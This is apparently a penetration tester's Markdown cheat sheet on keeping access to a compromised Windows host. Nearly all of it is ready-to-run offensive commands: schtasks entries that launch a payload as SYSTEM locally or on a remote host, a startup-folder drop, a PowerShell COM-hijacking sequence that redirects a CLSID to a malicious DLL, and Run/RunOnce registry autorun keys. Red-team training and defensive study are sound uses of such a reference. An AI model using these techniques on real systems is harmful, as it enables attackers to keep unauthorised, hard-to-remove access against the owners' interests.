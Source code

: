 ## Maintaining Access

Looking forward to updating this with some super cool tricks once I've taken the persistence course from Sektor7! For now, this will have to do. This file focuses on maintaining access to a singular host locally. Domain persistence is covered in the Domain Persistence Methods file.

For this, you can use SharPersist from Mandiant to automate the steps.

 https://github.com/mandiant/SharPersist 


## Scheduled Tasks

We can add a scheduled task to execute on the target to revive persistence when we need it. This can be run on the local machine or remote machine (Requires HOST SPN).

```powershell
# Adds a task to run as SYSTEM daily on the localmachine
schtasks /create /SC weekly /RU "NT Authority\SYSTEM" /TN "bowser" /TR "C:\parrot.exe"

# Adds a task called bowser which executes parrot.exe weekly as SYSTEM on dc04.example.com
schtasks /create /S dc04.example.com /SC weekly /RU "NT Authority\SYSTEM" /TN "bowser" /TR "C:\parrot.exe"

# Force run a scheduled task
schtasks /Run /TN "bowser"
schtasks /Run /S dc04.example.com /TN "bowser"
```

## Startup Folders

Stick a malicious file in the user's startup folder. Whenever they login, it gets triggered. 

```powershell
C:\Users\toby\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\placeyourfilehere
```


## COM Hijacking

A complex topic and not really an area that I'm covering in a cheatsheet. In essence, we're abusing the fact the COM (Common Object Model) first looks in HKCU for a DLL before looking in HKLM. Therefore, if a valid DLL is being loaded from HKLM and HKCU is empty, we can edit the registry of HKCU to "hijack" the execution flow and force exection of our malicious binary.

https://cyberstruggle.org/com-hijacking-for-persistence/

We can use the Task Scheduler as many default tasks have custom triggers that call COM objects. 
```powershell
$Tasks = Get-ScheduledTask  
  
foreach ($Task in $Tasks)  
{  
	 if ($Task.Actions.ClassId -ne $null)  
	 {  
		 if ($Task.Triggers.Enabled -eq $true)  
		 {  
			 if ($Task.Principal.GroupId -eq "Users")  
			 {  
				 Write-Host "Task Name: " $Task.TaskName  
				 Write-Host "Task Path: " $Task.TaskPath  
				 Write-Host "CLSID: " $Task.Actions.ClassId  
				 Write-Host  
			 }  
		 }  
	 }  
}
```

Search tasks names in the output and check whether the CLSID is registered in just HKLM. If it is, then we can add a DLL in HKCU and obtain persistence - Dependant on how often the task is triggered.

```powershell
# Find the name of a discovered CLSID and its property
Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\MsCtfMonitor.dll
               ThreadingModel : Both

# Check it exists in HKLM
Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize
Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} (default) : MsCtfMonitor task handler

# It doesn't exist in HKCU
Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}' because it does not exist.

# Add a new item
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
New-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" -Name "InprocServer32" -Value "C:\malicious.dlls"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```


## Registry Auto Run Keys

We can stick some items in the registry to autorun when a user logs in. If we have elevated privileges, we're best off using the HKLM as then it will execute whenever the system turns on rather just when a specific user logs in. Obviously Run and RunOnce will run persistently or just once.

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Matrix /t REG_SZ /d "C:\parrot.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Matrix /t REG_SZ /d "C:\parrot.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run" /v Matrix /t REG_SZ /d "C:\parrot.exe"
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Matrix /t REG_SZ /d "C:\parrot.exe"
```